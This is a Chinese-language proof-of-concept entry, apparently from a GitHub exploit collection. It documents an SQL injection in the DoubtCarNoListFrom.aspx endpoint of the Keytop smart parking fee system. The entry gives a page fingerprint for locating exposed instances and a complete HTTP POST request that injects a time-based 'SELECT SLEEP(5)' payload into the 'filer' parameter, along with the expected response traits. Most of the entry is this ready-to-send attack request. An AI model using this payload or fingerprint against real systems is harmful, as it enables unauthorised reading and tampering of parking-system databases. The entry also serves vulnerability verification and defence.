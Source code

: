 ﻿# 科拓全智能停车收费系统-SQL注入-DoubtCarNoListFrom

> 更新时间：2024-05-20

> 漏洞编号：

> 漏洞说明： 科拓全智能停车收费系统 DoubtCarNoListFrom接口处存在SQL注入漏洞，恶意攻击者可能会利用此漏洞修改数据库中的数据，例如添加、删除或修改记录，导致数据损坏或丢失。

> 漏洞特征：body="/KT_Css/qd_defaul.css"

> 验证脚本：HTTP

```
POST /KT_Admin/CarCard/DoubtCarNoListFrom.aspx HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Connection: close
 
start=0&limit=20&filer=1;SELECT SLEEP(5)#
```

> 响应代码特征：999

> 响应内容特征：

> 上传文件定位：

> 验证文件来源：科拓全智能停车收费系统-SQL注入-DoubtCarNoListFrom.poc

